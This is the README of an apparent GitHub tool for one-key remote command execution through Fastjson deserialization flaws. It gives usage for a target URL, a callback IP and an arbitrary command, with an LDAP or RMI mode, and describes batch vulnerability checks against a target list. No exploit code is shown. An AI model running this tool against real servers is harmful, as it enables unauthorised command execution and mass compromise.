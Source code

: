 # fastjson_rec_exploit
fastjson一键命令执行

脚本使用：

usage: Fastjson one-key command is executed! [-h] [-u URL] [-s SELF] [-c COMMAMD]

python3 fastjson.py -u [Target Url] -s [self IP] -c [command]

optional arguments:

  -h, --help            show this help message and exit
  
  -u URL, --url URL     漏洞url
  
  -s SELF, --self SELF  自己IP，如果是VPS请输入公网IP
  
  -c COMMAMD, --commamd COMMAMD 执行的命令,有空格请加上双引号

  -m [MODE], --mode [MODE]  选择执行模式(可选)，1：ldap模式(默认)；2：rmi模式

python3 fastjson.py -u http://192.168.1.3/ -s 192.168.1.1 -c "touch /tmp/test.txt

使用截图：

![image](https://github.com/mrknow001/fastjson_rec_exploit/blob/master/img/%E6%94%BB%E5%87%BB%E6%88%AA%E5%9B%BE.png)

![image](https://github.com/mrknow001/fastjson_rec_exploit/blob/master/img/%E9%9D%B6%E6%9C%BA%E6%88%AA%E5%9B%BE.png)


批量检测链接放target.txt中。
usage:python3 fastjson_check.py

![image](https://github.com/mrknow001/fastjson_rec_exploit/blob/master/img/1.png)
